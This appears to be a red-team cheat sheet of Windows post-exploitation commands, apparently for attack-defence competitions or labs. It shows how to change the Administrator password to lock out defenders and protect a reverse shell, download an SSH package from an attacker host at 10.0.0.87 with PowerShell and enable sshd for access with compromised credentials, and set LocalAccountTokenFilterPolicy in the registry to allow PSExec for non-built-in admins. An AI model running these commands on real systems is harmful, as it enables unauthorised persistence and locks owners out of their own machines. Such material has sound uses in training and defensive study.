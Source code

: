 ## Change a user's password
NOTE: This is useful for preventing Blue Team from gaining access to a compromised server. Change password of the admin account so they are unable to access for patching or reboot to take out your reverse shell.
```
net user <username> <new_password>
net user John NewPass123
net user Administrator yourbaseisbelongtous
```

## Enable SSH on Windows Target
```
Download the ssh.zip file from attacker machine - Install files can be found here: https://github.com/PowerShell/Win32-OpenSSH/releases - You can also grab the ssh.zip file from the odds_ends folder in this repo.

powershell iwr -uri http://10.0.0.87/ssh.zip -outfile .\ssh.zip

Unzip the file with any of the following commands:
.\7z.exe x C:\users\victim\Documents\ssh.zip
Expand-Archive -Path "C:\path\to\your\ssh.zip" -DestinationPath "C:\destination\folder"
powershell -command "Expand-Archive -Path 'C:\path\to\your\ssh.zip' -DestinationPath 'C:\destination\folder'"

Only if we need to create a tar file:
To create a tar.gz archive of a directory or file:
tar -czvf archive.tar.gz /path/to/directory_or_file

To extract files from a tar.gz archive:
tar -xzvf archive.tar.gz

Navigate into the extracted folder of ssh.zip and run the following powershell script
.\install-sshd.ps1

Now run the SSH service
start-service sshd
start-service ssh-agent

Now check that port 22 is listening
netstat-ano

Now try and access the machine with any compromised creds.
```

## Enable PSExec for all users - LocalAccountTokenFilterPolicy
```
Run the following command as admin to switch LocalAccountTokenFilterPolicy to 1 - this will enable all non 500 RID admin users to PSExec onto a Windows target machine
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d "1" /f
```

